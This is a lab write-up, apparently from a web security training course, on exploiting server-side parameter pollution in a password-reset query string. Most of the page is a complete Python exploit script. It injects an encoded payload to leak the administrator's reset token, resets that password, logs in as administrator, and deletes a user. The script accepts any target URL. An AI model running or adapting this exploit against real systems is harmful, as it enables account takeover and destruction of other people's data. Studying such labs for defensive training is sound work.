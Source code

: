 ```yaml
---
title: 'API Lab 2'
description: 'Learn how to exploit server‑side parameter pollution in the query string to leak sensitive data and complete an unauthorized action.'
---
```



## Exploiting server-side parameter pollution in a query string

<div style="text-align: justify;">
  In this lab, I exploited a query-string based server-side parameter pollution (SSPP) vulnerability. The issue arose from how the backend handled conflicting or duplicated query parameters injected via URL-encoded characters. By manipulating the `username` field with encoded characters like `%26` (for `&`) and `%23` (for `#`), I was able to inject an additional parameter (`field=reset_token`) into the backend request.

  This allowed me to extract the password reset token for the administrator user from the API response. After obtaining the token, I was able to reset the administrator's password, gain access to the admin panel, and delete the user `carlos`. This lab emphasized how improper parsing of user input in query strings can lead to high-severity account takeovers.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Visit the **"Forgot Password"** page and request a reset token for the administrator.
- Revisit the page and pollute the `username` field with: `administrator%26field=reset_token%23`.
- The backend parses the injected `field` parameter and returns the reset token in the response.
- Use the token to reset the admin password.
- Log in as `administrator` and delete the `carlos` user.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings for self-signed certs (like in labs/Burp)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Proxy settings for Burp Suite
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running by probing the local proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=2)
    except requests.exceptions.ConnectionError:
        print("[-] Burp Suite is not running or proxy not reachable.")
        print("[!] Start Burp and ensure it's listening on 127.0.0.1:8080")
        sys.exit(1)

def get_csrf_token(session, url):
    """
    Extract the CSRF token from /forgot-password page.
    """
    try:
        res = session.get(url + "/forgot-password", verify=False, proxies=proxies)
        res.raise_for_status()
        soup = BeautifulSoup(res.text, 'html.parser')
        csrf_input = soup.find("input", {"name": "csrf"})
        return csrf_input['value']
    except Exception as e:
        print(f"[-] Failed to fetch CSRF token: {e}")
        sys.exit(1)

def trigger_token_generation(session, url, csrf):
    """
    Send initial password reset request to trigger token creation.
    """
    data = {
        "csrf": csrf,
        "username": "administrator"
    }
    try:
        session.post(url + "/forgot-password", data=data, verify=False, proxies=proxies)
    except requests.RequestException as e:
        print(f"[-] Initial password reset trigger failed: {e}")
        sys.exit(1)

def extract_reset_token(session, url, csrf):
    """
    Exploit parameter pollution to extract the reset token from the API response.
    """
    # Crafted username with encoded special characters to bypass validation
    payload = "administrator%26field=reset_token%23"
    data = {
        "csrf": csrf,
        "username": payload
    }
    try:
        res = session.post(url + "/forgot-password", data=data, verify=False, proxies=proxies)
        result = res.json()
        return result['result']
    except (ValueError, KeyError) as e:
        print("[-] Failed to extract reset token from response.")
        print(f"[!] Response content: {res.text}")
        sys.exit(1)

def reset_password(session, url, token, csrf):
    """
    Use the stolen reset token to set a new password for administrator.
    """
    uri = f"/forgot-password?reset_token={token}"
    data = {
        "csrf": csrf,
        "reset_token": token,
        "new-password-1": "Password@123",
        "new-password-2": "Password@123"
    }
    try:
        res = session.post(url + uri, data=data, verify=False, proxies=proxies)
        if "Password successfully changed" in res.text or res.status_code == 200:
            print("[+] Password reset successful!")
        else:
            print("[-] Password reset may have failed.")
            print(res.text)
    except requests.RequestException as e:
        print(f"[-] Reset password request failed: {e}")
        sys.exit(1)

def login(session, url):
    """
    Log in as the administrator using the new password.
    """
    csrf = get_csrf_token(session, url)
    credentials = {
        "csrf": csrf,
        "username": "administrator",
        "password": "Password@123"
    }
    try:
        res = session.post(url + "/login", data=credentials, verify=False, proxies=proxies, allow_redirects=False)
        return res.status_code == 302
    except requests.RequestException as e:
        print(f"[-] Login failed: {e}")
        return False

def delete_user(session, url, username="carlos"):
    """
    Delete the specified user from the admin panel.
    """
    try:
        res = session.get(f"{url}/admin/delete?username={username}", verify=False, proxies=proxies)
        if "User deleted" in res.text:
            print(f"[+] User '{username}' deleted successfully.")
        else:
            print(f"[-] Failed to delete user '{username}'.")
    except requests.RequestException as e:
        print(f"[-] Deletion request failed: {e}")

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://target.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    session = requests.Session()

    # Step 0: Check if Burp is active
    check_burp()

    # Step 1: Get initial CSRF token
    print("[*] Fetching initial CSRF token...")
    csrf = get_csrf_token(session, url)

    # Step 2: Trigger password reset to generate token
    print("[*] Triggering token generation for administrator...")
    trigger_token_generation(session, url, csrf)

    # Step 3: Re-fetch CSRF (in case it changes)
    csrf = get_csrf_token(session, url)

    # Step 4: Exploit to extract token
    print("[*] Attempting to extract reset token using SSPP...")
    token = extract_reset_token(session, url, csrf)
    print(f"[+] Extracted token: {token}")

    # Step 5: Reset password
    print("[*] Resetting password using the extracted token...")
    reset_password(session, url, token, csrf)

    # Step 6: Log in with new credentials
    print("[*] Logging in as administrator...")
    if login(session, url):
        print("[+] Logged in successfully as administrator.")
    else:
        print("[-] Login failed.")
        sys.exit(1)

    # Step 7: Delete target user
    print("[*] Attempting to delete user 'carlos'...")
    delete_user(session, url)

if __name__ == "__main__":
    main()
```